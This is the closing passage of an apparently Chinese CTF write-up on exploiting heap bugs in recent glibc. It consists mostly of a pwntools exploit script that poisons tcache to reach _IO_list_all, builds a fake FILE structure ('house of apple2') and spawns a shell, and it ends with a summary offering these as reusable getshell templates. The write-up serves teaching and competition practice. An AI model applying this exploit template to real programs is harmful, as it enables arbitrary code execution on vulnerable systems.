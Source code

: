 ```python
_IO_list_all = libcbase + libc.sym['_IO_list_all']
_IO_wfile_jumps = libcbase + 0x2170c0
_IO_stdfile_2_lock = libcbase + 0x21ca80

gadgets = [0xebc81, 0xebc85, 0xebc88, 0xebce2, 0xebd3f, 0xebd43]
one_gadget = libcbase + gadgets[0]

add(0, 0x80, 'aaaa')
add(1, 0x80, 'aaaa')
add(2, 0x80, 'aaaa')
add(3, 0x80, 'aaaa')

delete(2)
delete(1)

payload = flat(
    {
        0x80: [
            0, 0x91, _IO_list_all ^ ((heapbase + 0x1000) >> 12)
        ]
    }
)
edit(0, payload)

fake_IO_file_addr = heapbase + 0x1950
add(0x14, 0x400, house_of_apple2(fake_IO_file_addr))

add(0, 0x80, 'aaaa')
add(1, 0x80, p64(fake_IO_file_addr))

# dbg()

menu(1)
p.sendlineafter('input idx:', str(0x100))

p.interactive()
```

调试过程中利用链如图所示

![image.png](https://shs3.b.qianxin.com/attack_forum/2024/11/attach-435c4f4df71ef01ecf2d78571d829b30a28feea9.png)

最终直接getshell。

![image.png](https://shs3.b.qianxin.com/attack_forum/2024/11/attach-8d7f716f1df4c7af65d214e787032034da82c1f0.png)

总结
--

本文总结了高版本libc的getshell与ORW模板。各位大师傅们可以利用这些模板对这类赛题一把梭，还没有学到这部分的小白师傅们只需要会largebin attack等方法就可以对高版本libc实现一把梭。